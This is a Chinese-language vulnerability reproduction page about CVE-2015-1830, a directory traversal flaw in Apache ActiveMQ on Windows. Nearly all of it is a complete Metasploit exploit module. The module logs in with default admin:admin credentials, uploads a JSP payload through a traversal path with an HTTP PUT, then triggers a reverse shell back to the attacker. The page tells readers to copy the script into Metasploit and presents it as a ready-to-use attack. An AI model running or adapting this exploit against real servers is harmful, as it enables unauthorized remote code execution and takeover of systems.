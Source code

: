 （CVE-2015-1830）ActiveMQ 路径遍历导致未经身份验证的rce
=======================================================

一、漏洞简介
------------

Windows 5.11.2之前的Apache ActiveMQ
5.x中blob消息的文件服务器上载/下载功能中的目录遍历漏洞允许远程攻击者通过未指定的向量在任意目录中创建JSP文件。

二、漏洞影响
------------

ActiveMQ 5.11.1

三、复现过程
------------

### msf poc

> 直接在msf里面搜索就行了，如果没有请更新msf版本，或者手动复制下面的脚本到msf目录下。

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Exploit::Remote
      Rank = ExcellentRanking

      include Msf::Exploit::Remote::HttpClient

      def initialize(info = {})
        super(update_info(info,
          'Name'           => 'Apache ActiveMQ 5.x-5.11.1 Directory Traversal Shell Upload',
          'Description'    => %q{
            This module exploits a directory traversal vulnerability (CVE-2015-1830) in Apache
            ActiveMQ 5.x before 5.11.2 for Windows.

            The module tries to upload a JSP payload to the /admin directory via the traversal
            path /fileserver/..\\admin\\ using an HTTP PUT request with the default ActiveMQ
            credentials admin:admin (or other credentials provided by the user). It then issues
            an HTTP GET request to /admin/<payload>.jsp on the target in order to trigger the
            payload and obtain a shell.
          },
          'Author'          =>
            [
              'David Jorm',     # Discovery and exploit
              'Erik Wynter'     # @wyntererik - Metasploit
            ],
          'References'     =>
            [
              [ 'CVE', '2015-1830' ],
              [ 'EDB', '40857'],
              [ 'URL', 'https://activemq.apache.org/security-advisories.data/CVE-2015-1830-announcement.txt' ]
            ],
          'Privileged'     => false,
          'Platform'    => %w{ win },
          'Targets'     =>
            [
              [ 'Windows Java',
                {
                  'Arch' => ARCH_JAVA,
                  'Platform' => 'win'
                }
              ],
            ],
          'DisclosureDate' => '2015-08-19',
          'License'        => MSF_LICENSE,
          'DefaultOptions'  => {
            'RPORT' => 8161,
            'PAYLOAD' => 'java/jsp_shell_reverse_tcp'
            },
          'DefaultTarget'  => 0))

        register_options([
          OptString.new('TARGETURI', [true, 'The base path to the web application', '/']),
          OptString.new('PATH',      [true, 'Traversal path', '/fileserver/..\\admin\\']),
          OptString.new('USERNAME', [true, 'Username to authenticate with', 'admin']),
          OptString.new('PASSWORD', [true, 'Password to authenticate with', 'admin'])
        ])
      end

      def check
        print_status("Running check...")
        testfile = Rex::Text::rand_text_alpha(10)
        testcontent = Rex::Text::rand_text_alpha(10)

        send_request_cgi({
          'uri'       => normalize_uri(target_uri.path, datastore['PATH'], "#{testfile}.jsp"),
          'headers'     => {
            'Authorization' => basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
            },
          'method'    => 'PUT',
          'data'      => "<% out.println(\"#{testcontent}\");%>"
        })

        res1 = send_request_cgi({
          'uri'       => normalize_uri(target_uri.path,"admin/#{testfile}.jsp"),
          'headers'     => {
            'Authorization' => basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
            },
          'method'    => 'GET'
        })

        if res1 && res1.body.include?(testcontent)
          send_request_cgi(
            opts = {
              'uri'       => normalize_uri(target_uri.path,"admin/#{testfile}.jsp"),
              'headers'     => {
                'Authorization' => basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
                },
              'method'    => 'DELETE'
            },
            timeout = 1
          )
          return Exploit::CheckCode::Vulnerable
        end

        Exploit::CheckCode::Safe
      end

      def exploit
        print_status("Uploading payload...")
        testfile = Rex::Text::rand_text_alpha(10)
        vprint_status("If upload succeeds, payload will be available at #{target_uri.path}admin/#{testfile}.jsp") #This information is provided to allow for manual execution of the payload in case the upload is successful but the GET request issued by the module fails.

        send_request_cgi({
          'uri'       => normalize_uri(target_uri.path, datastore['PATH'], "#{testfile}.jsp"),
          'headers'     => {
            'Authorization' => basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
            },
          'method'    => 'PUT',
          'data'      => payload.encoded
        })

        print_status("Payload sent. Attempting to execute the payload.")
        res = send_request_cgi({
          'uri'       => normalize_uri(target_uri.path,"admin/#{testfile}.jsp"),
          'headers'     => {
            'Authorization' => basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
          },
          'method'    => 'GET'
        })
        if res && res.code == 200
          print_good("Payload executed!")
        else
          fail_with(Failure::PayloadFailed, "Failed to execute the payload")
        end
      end
    end
